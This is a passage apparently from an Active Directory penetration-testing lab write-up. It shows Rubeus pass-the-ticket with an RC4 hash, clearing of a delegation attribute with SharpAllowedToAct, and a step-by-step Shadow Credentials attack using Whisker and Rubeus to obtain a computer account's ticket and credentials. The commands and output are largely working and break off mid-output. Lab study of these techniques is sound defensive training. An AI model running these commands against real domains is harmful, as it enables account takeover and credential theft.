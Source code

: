 ```powershell
PS C:\Auditor> .\Rubeus.exe purge
PS C:\Auditor> .\Rubeus.exe asktgt /user:mgmtadmin /rc4:e53153fc2dc8d4c5a5839e46220717e5 /domain:us.techcorp.local /ptt

<snip>

PS C:\Auditor> .\SharpAllowedToAct.exe -c true -t US-HELPDESK
[+] Clearing attribute...
[+] Attribute changed successfully
[+] Done!
```
### 14.3.2 Shadow Credentials
- This attack is way more stealthy and also easier to execute.
- We will use the `cb\mgmtadmin` GenericWrite permissions over `us\us-helpdesk$` to modify the target account's `msDS-KeyCredentialLink` attribute and append it with alternate credentials in the form of certificates.
- First we will list the `msDS-KeyCredentialLink` attribute of the target server.
```powershell
PS C:\Auditor> .\Whisker.exe list /target:us-helpdesk$ /domain:us.techcorp.local /dc:us-dc.us.techcorp.local
[*] Searching for the target account
[*] Target user found: CN=US-HELPDESK,CN=Computers,DC=us,DC=techcorp,DC=local
[*] Listing deviced for us-helpdesk$:
[*] No entries!
```
- Now we will modify the attribute.
```powershell
PS C:\Auditor> .\Whisker.exe add /target:us-helpdesk$ /domain:us.techcorp.local /dc:us-dc.us.techcorp.local
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password oApSTLuBSHPqoxHf
[*] Searching for the target account
[*] Target user found: CN=US-HELPDESK,CN=Computers,DC=us,DC=techcorp,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 4f287cab-3f87-4a31-ba6e-a595586af3f5
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:us-helpdesk$ /certificate:MIIJ2AI...
```
- Let's verify that the attribute has indeed been modified. We will also need the `DeviceID` attribute to perform the cleanup after the attack.
```powershell
PS C:\Auditor> .\Whisker.exe list /target:us-helpdesk$ /domain:us.techcorp.local /dc:us-dc.us.techcorp.local
[*] Searching for the target account
[*] Target user found: CN=US-HELPDESK,CN=Computers,DC=us,DC=techcorp,DC=local
[*] Listing deviced for us-helpdesk$:
    DeviceID: 4f287cab-3f87-4a31-ba6e-a595586af3f5 | Creation Time: 12/4/2023 11:37:42 AM
```
- Let's use the generated certificate to request a TGT as `us\us-helpdesk$`. In the generated command above we have added the `/ptt` and `/nowrap` options for our convenience.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgt /user:us-helpdesk$ /certificate:MIIJ2AI... /password:"oApSTLuBSHPqoxHf" /domain:us.techcorp.local /dc:us-dc.us.techcorp.local /getcredentials /show /nowrap /ptt

<snip>

[*] Getting credentials using U2U

  CredentialInfo         :
```